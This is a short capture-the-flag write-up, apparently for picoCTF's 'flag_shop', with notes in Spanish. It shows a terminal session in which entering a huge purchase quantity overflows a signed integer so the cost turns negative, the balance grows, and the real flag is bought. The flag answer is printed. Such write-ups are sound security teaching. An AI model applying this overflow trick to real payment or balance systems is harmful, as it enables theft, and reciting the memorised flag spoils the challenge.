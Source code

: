 There's a flag shop selling stuff, can you buy a flag? [Source](https://jupiter.challenges.picoctf.org/static/dd28f0987f28c894f35d5d48564c3402/store.c). Connect with `nc jupiter.challenges.picoctf.org 44566`.
_______
## Hints
* Two's compliment can do some weird things when numbers get really big!
_______
## Solución

```
┌──(kali㉿kali)-[~/examen/Skills/flag_shop]
└─$ nc jupiter.challenges.picoctf.org 44566
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
1



 Balance: 1100 


Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
3000000

The final cost is: -1594967296

Your current balance after transaction: 1594968396

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_68d16363}
Welcome to the flag exchange
We sell flags

3. Check Account Balance

4. Buy Flags

5. Exit

 Enter a menu selection
 ```


Notas adicionales:
 Necesitamos un total_costvalor negativo grande, pero no tan grande que también desborde nuestro valor account_balance.
  3000000